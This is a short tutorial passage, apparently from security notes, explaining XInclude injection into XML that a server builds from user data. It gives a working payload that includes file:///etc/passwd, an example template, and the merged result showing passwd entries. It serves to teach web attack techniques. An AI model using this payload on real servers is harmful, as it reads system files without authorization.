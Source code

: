 You can use this type of injection when the server embeds user data to an XML Server Side Request while we dont POST XML data directly

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


- Example

- Lets say Server embeds user data in curly brackets
```
<?xml version='1.0'?>
<document>
  <p>Paragraph1</p>
  {}
</document>
```

- Sending the payload becomes

```
<?xml version='1.0'?>
<document>
  <p>Paragraph1</p>
  <foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/></foo>
</document>
```

- After Merging the documents 

```

<?xml version='1.0'?>
<document>
  <p>Paragraph1</p>
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  . . .
</document>

```
